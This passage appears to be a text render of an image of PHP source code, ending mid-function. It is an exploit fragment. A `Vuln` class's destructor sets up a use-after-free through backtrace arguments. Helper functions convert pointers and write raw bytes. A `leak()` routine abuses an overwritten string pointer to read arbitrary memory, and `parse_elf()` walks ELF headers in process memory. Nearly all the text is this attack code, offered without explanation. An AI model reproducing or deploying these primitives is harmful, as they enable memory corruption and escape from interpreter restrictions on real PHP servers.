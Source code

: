 ```php

    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace();
            if(!isset($backtrace[1]['args'])) {
                $backtrace = debug_backtrace();
            }
        }
    }

    class Helper {
        public $a, $b, $c, $d;
    }

    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= sprintf("%c",($ptr & 0xff));
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = sprintf("%c",($v & 0xff));
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
```